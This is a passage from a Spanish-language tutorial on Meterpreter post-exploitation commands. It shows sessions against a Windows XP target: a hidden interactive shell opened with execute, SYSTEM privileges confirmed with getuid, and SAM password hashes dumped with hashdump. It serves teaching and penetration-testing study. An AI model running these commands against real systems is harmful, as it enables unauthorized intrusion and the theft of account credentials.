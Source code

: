 	meterpreter > edit edit.txt

- Execute

El comando execute ejecuta un comando en el objetivo.

	meterpreter > execute -f cmd.exe -i -H
	Process 38320 created.
	Channel 1 created.
	Microsoft Windows XP [Version 5.1.2600]
	(C) Copyright 1985-2001 Microsoft Corp.
	
	C:\WINDOWS\system32>

- GETUID

La ejecución de getuid mostrará el usuario en el que el servidor Meterpreter se está ejecutando en el host.

	meterpreter > getuid
	Server username: NT AUTHORITY\SYSTEM
	meterpreter >

- HASHDUMP

El módulo de post explotación hashdump volcará el contenido de la base de datos SAM .


	meterpreter > run post/windows/gather/hashdump 
	
	[*] Obtaining the boot key...
	[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
	[*] Obtaining the user list and keys...
	[*] Decrypting user keys...
	[*] Dumping password hashes...
	
	Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
	dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
	SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
	victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
	meterpreter >


- Idletime

El comando idletime mostrará el número de segundos que el usuario de la máquina remota ha estado inactivo.


	meterpreter > idletime
	User has been idle for: 5 hours 26 mins 35 secs
	meterpreter >


- IPCONFIG

El comando ipconfig muestra las interfaces de red y las direcciones en la máquina remota.

